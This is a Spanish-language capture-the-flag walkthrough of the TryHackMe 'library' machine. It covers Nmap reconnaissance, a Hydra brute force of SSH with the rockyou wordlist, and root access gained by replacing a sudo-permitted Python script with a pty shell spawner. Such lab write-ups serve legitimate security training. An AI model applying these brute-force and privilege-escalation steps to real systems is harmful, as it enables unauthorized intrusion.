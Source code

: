 # Guía de Explotación - TryHackMe library

## 1. Reconocimiento

### Escaneo inicial con Nmap

Realizamos un escaneo con Nmap utilizando el siguiente comando:

```bash
nmap -A -p- -T4 IP_MAQUINA_ATACADA
```

![Escaneo con Nmap](./assets/image.png)

Como resultado, encontramos dos puertos abiertos:
- **22/TCP** (SSH)
- **80/TCP** (HTTP)

También identificamos la presencia del archivo ``/robots.txt``.

Procedemos a comprobar el servicio HTTP en el navegador.

![Página web descubierta](./assets/image-1.png)

En la página web encontramos un usuario llamado **meliodas**.

Al revisar el archivo `/robots.txt`, encontramos una pista que menciona **rockyou**, lo que sugiere la posibilidad de realizar un ataque de fuerza bruta contra el servicio SSH.

![Contenido de robots.txt](./assets/image-2.png)

## 2. Obtención de acceso

Utilizaremos Hydra para realizar un ataque de fuerza bruta contra SSH, empleando el diccionario **rockyou.txt** y el usuario encontrado previamente (**meliodas**). Ejecutamos el siguiente comando:

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://IP_MAQUINA_ATACADA
```

![Ataque con Hydra](./assets/image-3.png)

Una vez obtenida la contraseña, accedemos a la máquina mediante SSH:

```bash
ssh meliodas@IP_MAQUINA_ATACADA
```

![Acceso SSH](./assets/image-4.png)

Listamos los archivos en el directorio del usuario y encontramos el archivo **user.txt**, que contiene la primera flag:

```bash
ls
cat user.txt
```

![Flag de usuario](./assets/image-5.png)

## 3. Escalada de privilegios

Para identificar posibles privilegios elevados, verificamos los permisos sudo asignados al usuario con:

```bash
sudo -l
```

![Permisos sudo](./assets/image-6.png)

Observamos que se nos permite ejecutar Python con privilegios elevados sobre un script llamado **bak.py**.

Intentamos modificar el script, pero no tenemos permisos de escritura ya que pertenece a **root**. Sin embargo, podemos eliminarlo y crear uno nuevo con el siguiente contenido:

```bash
echo 'import pty; pty.spawn("/bin/sh")' > bak.py
sudo python /home/meliodas/bak.py
```

![Escalada de privilegios](./assets/image-7.png)

Al ejecutar el script modificado, obtenemos acceso como **root**. Ahora solo necesitamos acceder al directorio de root y leer la flag final:

```bash
cd /root
cat root.txt
```

![Flag de root](./assets/image-8.png)

¡Máquina comprometida con éxito!

